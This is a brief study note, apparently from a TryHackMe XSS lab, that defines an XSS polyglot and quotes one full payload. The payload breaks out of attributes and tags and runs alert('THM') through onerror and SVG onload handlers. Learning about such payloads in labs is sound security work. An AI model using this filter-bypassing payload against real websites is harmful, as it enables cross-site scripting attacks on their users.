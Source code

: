 An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one:

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

*from THM room https://tryhackme.com/room/xss
